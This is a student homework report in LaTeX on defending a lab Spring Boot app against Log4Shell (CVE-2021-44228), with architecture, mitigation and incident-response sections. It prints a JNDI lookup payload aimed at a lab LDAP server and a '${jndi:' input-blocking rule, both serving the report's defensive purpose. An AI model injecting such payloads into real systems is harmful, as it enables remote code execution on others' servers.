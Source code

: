 \documentclass[a4paper,12pt]{article}
\title{Homework-9: Securing Systems Against Log4Shell}
\author{Nilansh Upadhyay}
\date{May 2025}
\begin{document}
\maketitle
\section{Architecture Diagram}
\begin{figure}[h]
    \centering
    \texttt{[image: architecture\_diagram.png]}
    \caption{System Architecture: Java App, LDAP Server, and Attacker}
\end{figure}
The diagram shows a Spring Boot app in a Docker container (port 8080) logging input via Log4j. An attacker sends a malicious POST to /log, triggering a JNDI lookup to an LDAP server (port 1389).
\section{Exploit Explanation}
Log4Shell (CVE-2021-44228) in Log4j 2.14.1 enables remote code execution via JNDI lookups. The payload \texttt{\$\{jndi:ldap://host.docker.internal:1389/a\}} triggers a lookup to an attacker’s LDAP server, mapping to MITRE ATT\&CK T1190.
\section{Mitigation and Response Summary}
\subsection{Mitigation}
Updated Log4j to 2.17.0, disabling JNDI lookups. Added input validation in \texttt{LogController.java} to block \texttt{\$\{jndi:\}}. Redeployed and tested, aligning with MITRE DEFEND.
\subsection{Incident Response}
Using MITRE REACT:
\begin{itemize}
    \item \textbf{Detect}: Found \texttt{\$\{jndi:\}} in logs.
    \item \textbf{Contain}: Stopped container.
    \item \textbf{Eradicate}: Verified no processes.
    \item \textbf{Recover}: Deployed patched app.
\end{itemize}
\end{document}
